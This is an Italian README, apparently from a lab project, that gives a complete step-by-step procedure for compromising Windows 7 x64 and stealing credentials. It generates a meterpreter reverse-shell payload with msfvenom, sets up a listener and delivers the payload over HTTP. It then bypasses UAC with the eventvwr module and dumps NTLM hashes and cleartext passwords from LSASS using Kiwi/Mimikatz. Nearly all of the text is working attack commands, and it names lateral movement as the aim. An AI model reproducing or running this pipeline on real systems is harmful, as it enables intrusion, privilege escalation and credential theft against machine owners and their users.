





# ESFILTRAZIONE CREDENZIALI SU WINDOWS 7 (X64)

Questo progetto descrive la pipeline completa per l'ottenimento di privilegi elevati e l'estrazione di password da un sistema Windows 7 SP1 a 64 bit utilizzando il framework Metasploit e l'estensione Kiwi (Mimikatz).

| Parametro | Valore |
| :--- | :--- |
| **Target OS** | Windows 7 x64 |
| **Attacker IP (Kali)** | 192.168.23.128 |
| **Payload** | windows/x64/meterpreter/reverse_tcp |
| **LPORT** | 4444 |

---

## Fase 1: Generazione del Payload Nativo

È fondamentale generare un payload nativo a 64 bit per garantire la compatibilità con il processo LSASS e per le successive fasi di escalation.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=192.168.23.128 \
         LPORT=4444 \
         -f exe -o mimi64.exe
```

Output: `mimi64.exe`

## Fase 2: Preparazione del Listener

Configuriamo Metasploit per ricevere la connessione in entrata.

```bash
msfconsole -q

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.23.128
set LPORT 4444
run
```

## Fase 3: Trasferimento ed Esecuzione

Avviamo un server HTTP rapido per la consegna del file:

Kali:
```bash
python3 -m http.server 80
```

Windows 7:
Navigare su `http://192.168.23.128`, scaricare `mimi64.exe` ed eseguirlo.

[!IMPORTANT]
A questo punto otterremo la Sessione 1, ma con privilegi limitati.



## Fase 4: Privileges Escalation (Bypass UAC)

Per leggere i segreti di sistema, dobbiamo scavalcare l'UAC. Utilizziamo il modulo eventvwr, impostando il target corretto per l'architettura a 64 bit.

```bash
# In sessione Meterpreter 1
background

use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set TARGET 1	# Fondamentale per sistemi x64
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.23.128
run
```



## Fase 5: Estrazione Credenziali con Kiwi

Una volta ottenuta la Sessione 2 (privilegiata), eseguiamo il dump finale.

```bash
# Ottenimento privilegi SYSTEM
getsystem

# Caricamento estensione Mimikatz (Kiwi)
load kiwi
```



```bash
# Recupero di tutte le credenziali (Hash NTLM e Testo Chiaro)
creds_all
```



```bash
# Comando specifico per dump approfondito da memoria LSASS
kiwi_cmd sekurlsa::logonpasswords
```



## Risultati Attesi

Al termine della procedura, l'attaccante visualizzerà una tabella contenente i nomi utente, i domini e gli hash NTLM (o password in chiaro) di tutti gli utenti che hanno effettuato l'accesso sulla macchina, permettendo il cracking delle credenziali o il movimento laterale nella rete.